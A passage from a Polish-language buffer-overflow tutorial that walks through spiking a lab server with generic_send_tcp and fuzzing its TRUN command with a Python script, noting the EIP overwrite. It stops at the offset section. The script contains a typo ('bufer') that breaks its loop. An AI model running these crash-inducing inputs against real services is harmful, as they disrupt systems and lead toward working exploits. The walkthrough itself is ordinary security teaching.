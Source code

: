 Zapisujemy i skorzystaym teraz z narzędzia do *spikingu* - *generic_send_tcp*. Wpisujemy poniższe polecenie:

    generic_send_tcp 192.168.201.128 9999 trun.spk 0 0

Po chwili nasz program "wysypie się" przez *Acces violation when executing*. Zwróćmy uwagę na rejestry, widzimy że wysłaliśmy bardzo dużo "A", tak dużo, że aż zmieniliśmy wartość rejestru EIP, który mówi programowi gdzie ma przejść dalej aby wykonać następne polecenie. Wartość tego rejestru to teraz 41414141, W ASCII wartość heksadecymalna 41 odpowiada własnie literze "A".

## **Fuzzing**

*Fuzzing* jest generalnie podobny do *spikingu*, z tym że *spiking* był robiony po to zabić program, *fuzzing* posłuży nam do uzyskania pewnych informacji.

W tym celu tworzymy skrypt napisany w języku Python (*l.py*):

```python
#!/usr/bin/python
import sys
import socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.201.128', 9999))
        s.send(('TRUN /.:/' + buffer))
        s.close()
        sleep(1)
        buffer = bufer + "A" * 100
    except:
        print "Fuzzing crash at %s bytes" % str(len(buffer))
        sys.exit()
```

Powyższy program wskaże nam mniej więcej na jakiej wartości program wysypuje się. Na Windowsie 10 uruchamiamy serwer i załączamy go do *Immunity Debuggera*. Może tak się zdarzyć że serwer nie zakończy swojego działania więc będziemy musieli zamknąć wykonywany skrypt na maszynie atakującej ręcznie. Otrzymujemy powiadomienie że program wysypał się gdzieś przy 3000 bajcie. Ta informacja będzie potrzebna przy tworzeniu tzw. *offsetu*.


![](p/3.png)


## **Offest**
